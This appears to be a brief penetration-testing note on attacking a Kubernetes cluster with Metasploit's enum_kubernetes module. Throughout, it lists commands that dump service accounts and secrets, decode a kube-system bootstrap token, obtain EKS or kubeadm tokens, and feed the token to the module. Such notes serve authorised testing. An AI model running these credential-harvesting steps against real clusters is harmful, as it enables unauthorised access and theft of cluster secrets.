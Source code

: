 ```
use cloud/kubernetes/enum_kubernetes
```


1. Use the Metasploit k8s framework
2. Get the hostname
3. Set hostname
```
set RHOST hostname
```
4. Try obtaining an existing token:
  - `kubectl get sa`
  - `kubectl get secrets`
  - `kubectl get secret bootstrap-token-2cfprk -n kube-system -o yaml`
  - `kubectl get secret -n kube-system bootstrap-token-2cfprk -o json | jq '.data | map_values(@base64d)'`

  For EKS:
  - `aws eks get-token --cluster-name CLUSTER_NAME`

  For Kubeadm:
- `kubeadm token create --print-join-command`

5. Try to use that token:
```
set TOKEN tokenoutput
```

6. Try a few commands:
```
run
```